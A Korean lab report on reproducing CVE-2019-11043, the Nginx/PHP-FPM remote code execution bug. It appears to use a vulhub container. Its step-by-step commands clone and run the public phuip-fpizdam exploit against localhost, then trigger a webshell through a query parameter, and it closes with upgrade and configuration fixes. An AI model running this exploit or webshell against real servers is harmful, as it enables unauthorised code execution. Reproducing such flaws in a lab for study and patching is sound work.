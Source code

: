 # CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```
![](./img/1.png)

- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.
![](./img/2.png)

### 3.3 기본 동작 확인  
```bash
curl http://localhost:8080/index.php
# → hello world
```
- 브라우저로 동작 확인
![](./img/3.png)

### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost:8080/index.php"
```
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```
![](./img/4.png)

### 3.5 웹셸 테스트  
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
-브라우저로 테스트
![](./img/5.png)

## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거